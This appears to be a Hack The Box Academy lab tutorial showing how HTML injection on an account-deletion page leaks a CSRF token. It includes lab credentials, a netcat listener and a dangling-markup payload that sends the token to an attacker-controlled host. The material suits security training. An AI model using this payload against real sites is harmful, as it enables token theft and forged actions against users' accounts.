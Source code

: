 Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

- Email: heavycat106
- Password: rocknrol

This is an account that we created to look at the application's functionality.

After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

![Confirmation prompt to delete account with email julie.rogers@example.com.](https://academy.hackthebox.com/storage/modules/153/36.png)

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

Code: html

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

![Confirmation prompt to delete account with email h1underline.](https://academy.hackthebox.com/storage/modules/153/37.png)

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

![HTML source code showing an underlined heading and hidden CSRF input.](https://academy.hackthebox.com/storage/modules/153/39.png)

Let us first instruct Netcat to listen on port 8000, as follows.

  Cross-Site Request Forgery (POST-based)

```shell-session
ShibuShivansh@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.

Code: html

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

![Terminal output showing netcat listening on port 8000, receiving a GET request with a hidden CSRF token.](https://academy.hackthebox.com/storage/modules/153/40.png)

Since the attack was successful against our test account, we can do the same against any account of our choosing.

We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

Next, we will cover how you can chain XSS and CSRF to attack a user's session.
